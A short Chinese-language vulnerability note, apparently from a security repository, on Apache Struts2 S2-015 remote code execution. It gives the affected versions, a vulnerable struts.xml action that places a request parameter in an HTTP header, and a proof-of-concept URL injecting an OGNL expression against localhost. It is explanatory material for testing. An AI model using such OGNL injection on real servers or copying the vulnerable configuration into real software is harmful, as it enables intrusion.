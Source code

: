 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.14.2

详情[参看](https://cwiki.apache.org/confluence/display/WW/S2-015)
原因在于struts2.xml配置中有如下的配置:

```
<action name="HelloWorld" class="struts2demo.action.HelloWorldAction">
    <result type="httpheader">
    	<param name="headers.foobar">${q}</param>
    </result>
</action>
```

为HTTP头信息设置了1个foobar的头信息。  

POC过程:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld.action?q=%25%7B1%2B3%7D
</pre>

请求头中的foobar的数值为4